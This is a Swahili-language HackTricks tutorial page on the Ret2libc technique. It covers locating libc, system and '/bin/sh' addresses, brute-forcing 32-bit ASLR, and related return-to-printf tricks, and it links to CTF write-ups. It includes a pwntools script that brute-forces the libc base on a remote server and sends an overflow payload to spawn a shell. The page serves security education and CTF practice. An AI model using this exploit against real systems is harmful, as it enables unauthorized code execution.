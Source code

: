 # Ret2lib

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## **Maelezo Msingi**

Esensi ya **Ret2Libc** ni kurekebisha mtiririko wa utekelezaji wa programu yenye kasoro kwa kazi ndani ya maktaba iliyoshirikiwa (k.m., **system**, **execve**, **strcpy**) badala ya kutekeleza shellcode iliyotolewa na mkalimani kwenye steki. Mshambuliaji hupanga mzigo wa data ambao unabadilisha anwani ya kurudi kwenye steki ili ielekeze kwenye kazi ya maktaba inayotakiwa, huku pia akifanya mipango kwa ajili ya hoja zozote muhimu kuwekwa sawa kulingana na mkataba wa wito.

### **Hatua za Mfano (zilizorahisishwa)**

* Pata anwani ya kazi ya kuita (k.m. system) na amri ya kuita (k.m. /bin/sh)
* Unda mnyororo wa ROP ili kupitisha hoja ya kwanza ikielekeza kwenye herufi ya amri na mtiririko wa utekelezaji kwa kazi

## Kupata anwani

* Kudhani kwamba `libc` inayotumiwa ni ile kutoka kwenye mashine ya sasa unaweza kupata itakapopakiwa kumbukani na:

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

Ikiwa unataka kujua ikiwa ASLR inabadilisha anwani ya libc unaweza kufanya hivi:
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* Kwa kujua libc iliyotumiwa pia inawezekana kupata kisawe cha kazi ya `system` kwa:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* Kujua libc iliyotumiwa pia inawezekana kupata mbali hadi kwa kazi ya string `/bin/sh` na:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### Kutumia gdb-peda / GEF

Kwa kujua libc iliyotumiwa, Pia ni rahisi kutumia Peda au GEF kupata anwani ya kazi ya **system**, ya kazi ya **exit** na ya string **`/bin/sh`**:
```bash
p system
p exit
find "/bin/sh"
```
### Kutumia /proc/\<PID>/maps

Ikiwa mchakato unazalisha **watoto** kila wakati unapozungumza naye (mtandao wa seva) jaribu **kusoma** faili hiyo (labda utahitaji kuwa na ruhusa ya mizizi).

Hapa unaweza kupata **mahali hasa ambapo libc imepakia** ndani ya mchakato na **mahali itakapopakiwa** kwa kila mtoto wa mchakato.

![](<../../../.gitbook/assets/image (850).png>)

Katika kesi hii imepakia katika **0xb75dc000** (Hii itakuwa anwani ya msingi ya libc)

## Libc isiyojulikana

Inaweza kuwa inawezekana kwamba **hujui libc ambayo binary inapakia** (kwa sababu inaweza kuwa katika seva ambapo huna ufikiaji wowote). Katika kesi hiyo unaweza kutumia udhaifu wa **kuvuja anwani na kupata libc** ambayo maktaba inatumika:

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

Na unaweza kupata templeti ya pwntools kwa hili katika:

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

### Jua libc na 2 offsets

Angalia ukurasa [https://libc.blukat.me/](https://libc.blukat.me/) na tumia **anwani kadhaa** za kazi ndani ya libc kugundua **toleo lililotumiwa**.

## Kupitisha ASLR katika biti 32

Mashambulizi haya ya kufanya nguvu ni **yenye manufaa kwa mifumo ya biti 32 tu**.

* Ikiwa shambulio ni la ndani, unaweza kujaribu kufanya nguvu ya msingi ya libc (yenye manufaa kwa mifumo ya biti 32):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Kama unashambulia seva ya mbali, unaweza kujaribu **kubaini kwa nguvu anwani ya kazi ya `libc` ya `usleep`**, ukipeleka kama hoja 10 (kwa mfano). Ikiwa kwa wakati fulani **seva inachukua sekunde 10 zaidi kujibu**, umepata anwani ya kazi hii.

## Gadget Moja

Tekeleza kabati kwa kuruka kwa **anwani** moja maalum **tu** katika libc:

{% content-ref url="one-gadget.md" %}
[one-gadget.md](one-gadget.md)
{% endcontent-ref %}

## Mfano wa Msimbo wa x86 Ret2lib

Katika mfano huu, kubaini kwa nguvu kwa ASLR imejumuishwa katika msimbo na faili ya binary inayoweza kudhurika iko kwenye seva ya mbali:
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## Mfano wa Msimbo wa x64 Ret2lib

Angalia mfano kutoka:

{% content-ref url="../" %}
[..](../)
{% endcontent-ref %}

## Ret-into-printf (au puts)

Hii inaruhusu **kuvuja kwa habari kutoka kwa mchakato** kwa kuita `printf`/`puts` na data fulani maalum iliyowekwa kama hoja.

## Ret2printf

Hii kimsingi inamaanisha kutumia **Ret2lib kubadilisha kuwa udhaifu wa aina ya `printf` format strings** kwa kutumia `ret2lib` kuita printf na thamani za kutumia (inaonekana haina maana lakini inawezekana):

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## Mifano Mingine & marejeo

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib, ikitoa kuvuja kwa anwani ya kazi katika libc, kutumia kifaa cha kipekee
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* Biti 64, ASLR imewezeshwa lakini hakuna PIE, hatua ya kwanza ni kujaza kuzidi hadi baiti 0x00 ya canary kisha kuita puts na kuvuja. Pamoja na canary, kifaa cha ROP kinajengwa kuita puts kuvuja anwani ya puts kutoka kwa GOT na kifaa cha ROP kuita `system('/bin/sh')`
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* Biti 64, ASLR imewezeshwa, hakuna canary, kuzidi kwa stakini kwenye main kutoka kwa kazi ya mtoto. Kifaa cha ROP kuita puts kuvuja anwani ya puts kutoka kwa GOT na kisha kuita kifaa cha kipekee.
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* Biti 64, hakuna pie, hakuna canary, hakuna relro, nx. Inatumia kazi ya kuandika kuvuja anwani ya kuandika (libc) na kuita kifaa cha kipekee.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/asis17\_marymorton/index.html)
* Inatumia stringi ya muundo kuvuja kwa canary kutoka kwa stakini na kuzidi kwa kizio kuita mfumo (ipo kwenye GOT) na anwani ya `/bin/sh`.
* [https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html](https://guyinatuxedo.github.io/14-ret\_2\_system/tu\_guestbook/index.html)
* Biti 32, hakuna relro, hakuna canary, nx, pie. Kutumia indeksi mbaya kuvuja anwani za libc na heap kutoka kwa stakini. Kutumia kuzidi kwa kizio kuita `system('/bin/sh')` (anwani ya heap inahitajika kuvuka ukaguzi).
